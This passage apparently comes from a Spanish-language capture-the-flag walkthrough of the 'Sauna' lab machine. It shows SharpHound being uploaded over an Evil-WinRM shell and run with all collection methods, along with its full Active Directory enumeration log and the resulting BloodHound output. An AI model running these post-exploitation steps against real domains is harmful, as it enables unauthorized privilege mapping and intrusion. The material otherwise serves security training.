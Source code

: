 ```
                                        
Info: Uploading /home/justice-reaper/Downloads/SharpHound.exe to C:\Users\support\Documents\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!
```

`Ejecutamos` el `binario`

```
*Evil-WinRM* PS C:\Users\support\Documents> .\SharpHound.exe -c All
2024-08-16T18:57:06.1189643-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-08-16T18:57:06.2908347-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-08-16T18:57:06.3065202-07:00|INFORMATION|Initializing SharpHound at 6:57 PM on 8/16/2024
2024-08-16T18:57:06.4314748-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for EGOTISTICAL-BANK.LOCAL : SAUNA.EGOTISTICAL-BANK.LOCAL
2024-08-16T18:57:30.5408415-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-08-16T18:57:30.6971057-07:00|INFORMATION|Beginning LDAP search for EGOTISTICAL-BANK.LOCAL
2024-08-16T18:57:30.7283379-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-08-16T18:57:30.7283379-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-08-16T18:58:01.6190065-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-08-16T18:58:31.6346554-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-08-16T18:58:38.1033373-07:00|INFORMATION|Consumers finished, closing output channel
2024-08-16T18:58:38.1345828-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-08-16T18:58:38.2595849-07:00|INFORMATION|Status: 94 objects finished (+94 1.402985)/s -- Using 42 MB RAM
2024-08-16T18:58:38.2595849-07:00|INFORMATION|Enumeration finished in 00:01:07.5698477
2024-08-16T18:58:38.3377182-07:00|INFORMATION|Saving cache with stats: 53 ID to type mappings.
 53 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-08-16T18:58:38.3533340-07:00|INFORMATION|SharpHound Enumeration Completed at 6:58 PM on 8/16/2024! Happy Graphing!
*Evil-WinRM* PS C:\Users\support\Documents> dir


    Directory: C:\Users\support\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/16/2024   6:58 PM          11596 20240816185837_BloodHound.zip
-a----        8/16/2024   6:56 PM        1052160 SharpHound.exe
-a----        8/16/2024   6:58 PM           8601 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin

```
